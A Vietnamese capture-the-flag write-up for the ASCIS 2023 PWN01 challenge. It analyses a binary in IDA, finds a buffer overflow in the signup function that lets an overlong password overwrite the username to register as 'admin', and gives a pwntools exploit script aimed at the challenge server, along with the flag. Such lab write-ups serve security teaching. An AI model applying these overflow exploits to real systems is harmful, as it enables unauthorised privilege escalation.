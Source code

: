 # (Write-up) ASCIS Warm Up - SVATTT 2023: PWN01

# 💻 Preamble

Bài Binary Exploit này đưa ra cho chúng ta một file, bắt đầu, mình thực hiện các việc kiểm tra file này:

![](https://hackmd.io/_uploads/HytnC1-Wp.png)


![](https://hackmd.io/_uploads/rJa2AJb-p.png)


Chạy chương trình này, mình nhận được các chức năng của chương trình bao gồm: đăng nhập (1. Login), đăng ký(2. Sign up) và thoát (3. Exit)

![](https://hackmd.io/_uploads/rkG6C1WWT.png)


Lúc bắt đầu, chương trình chỉ cho phép đăng ký rồi mới được đăng nhập.

![](https://hackmd.io/_uploads/Byd6A1WbT.png)


Khi đăng ký, chương trình cũng không cho đăng ký bằng tải khoản admin.

![](https://hackmd.io/_uploads/rJna0ybZa.png)


Mình thử đăng ký bằng tài khoản bình thường và đăng nhập vào thì không có gì quá bất ngờ xảy ra.

![](https://hackmd.io/_uploads/H1ru1eZbT.png)



Đến đây mình mở file trong IDA và bắt đầu phân tích mã nguồn của nó.

# 🤔 Start

Mình đưa về mã giả để dễ phân tích hơn

![](https://hackmd.io/_uploads/SyqARJbWa.png)


Mình phân tích đoạn code với logic của chương trình mình đã thử ở trên, và xem xét các hàm có trong đoạn code này.

Ở đây, bạn sẽ thấy được có một logic code không được hiển thị khi chạy chương trình là đoạn code so sánh đầu vào với giá trị 4 để gọi hàm `getflag()`

![](https://hackmd.io/_uploads/BkJ1ygZ-T.png)


Mình sẽ để lại hàm này ở đây và phân tích từng hàm từ trên xuống dưới, bắt đầu với hàm `help` . 

Hàm này đơn giản chỉ được dùng để hiển thị các lựa chọn của chúng ta khi bắt đầu chạy chương trình.

![](https://hackmd.io/_uploads/HkdkJxbZ6.png)


Tiếp tục với hàm `signup`

![](https://hackmd.io/_uploads/r1tjylZ-6.png)

Logic code của hàm này giải thích cho lý do lúc trước vì sao chúng ta không đăng ký được với **username** là **admin**.

⚠️Ở đây, cần lưu ý một điều là biến `src` và `s1` được khai báo với 64 byte, tuy nhiên cả hai biến lưu giá trị của username và password là `old_user` và `old_passwd` lại chỉ lưu 50 byte từ hai biến trên. ⇒ Ở đây, chúng ta có thể khai thác lỗi BOF (Buffer Overflow).

Tiếp tục phân tích đến hàm `getflag()` , ở đây chính là hàm chúng ta cần tìm cách để thực thi được để lấy được flag của challenge này.

![](https://hackmd.io/_uploads/By8xke--p.png)


Tuy nhiên, để lấy được flag thì chúng ta cần đăng ký với tài khoản `admin` (không cần đăng nhập nha 😊) mà đăng ký lại không cho đăng ký tài khoản bằng username `admin` này. 😑

Quay lại với hàm `signup` ở trên, mình sẽ tận dụng phát hiện về lỗi BOF để khai thác ở đây để đăng ký tài khoản `admin`.

![](https://hackmd.io/_uploads/rylWklbZa.png)


Do password được khai báo trước username nên mình sẽ tận dụng để ghi đè lên username.

Ở đây, khi đăng ký username có thể nhập bất kì tên gì. Nhưng password muốn ghi đè được username thì phải có `64 bytes + “tên đăng nhập muốn ghi đè”` . (Những byte thừa ra của password sẽ bị đẩy xuống và ghi đè lên username).

```docker
username: guest
password: "a"*64+"admin"
```

Cũng cần lưu ý một điều khá quan trọng ở đây là username và password sau khi đăng ký chỉ lưu tối đa 50 ký tự ⇒ Mật khẩu để đăng nhập là 50 ký tự “a”.

⇒ Tóm lại ở đây mình đã tìm được cách để đăng ký một tài khoản `admin` 

⇒ Tới đây đã có thể gọi đến hàm `getflag` để lấy flag rồi.

Trước khi viết payload khai thác, mình phân tích hàm `login` nữa để xem nốt nó làm gì.

 

![](https://hackmd.io/_uploads/BycE1lW-a.png)



Hàm này cũng không cho phép người dùng nhập username là admin. Tuy nhiên nó cũng dính lỗi BOF như hàm `signup`. Nếu rãnh, bạn có thể tìm cách khai thác nó =)))

# 🧑‍💻Payload

Đây là đoạn code python dùng để khai thác tự động challenge này:

```python
from pwn import *
import sys

try:
    if sys.argv[1] == "remote":
        r = remote("139.180.137.100", 1337)
    else:
        r = process('./pwn')
except:
    print("Usage: python3 pwn-sol.py [remote/local]")
    exit()

r.recvuntil(b"Exit")
r.sendline(b"2")

r.recvuntil(b"username:")
r.sendline(b"guest")

r.recvuntil(b"passwd:")
r.sendline(b'A'*64 + b'admin')

r.recvuntil(b"Exit")
r.sendline(b"4")

r.recv(1024)
flag = r.recv(1024)
if b"ASCIS" in flag:
    print(flag)
else:
    print("[-] Can not find the /home/pwn01/flag")
```

Chạy chương trình và flag sẽ hiện ra =))) Good luck

> 💡**ASCIS{1t_R3a114_30rks_0n_m4_m@chin3}**
>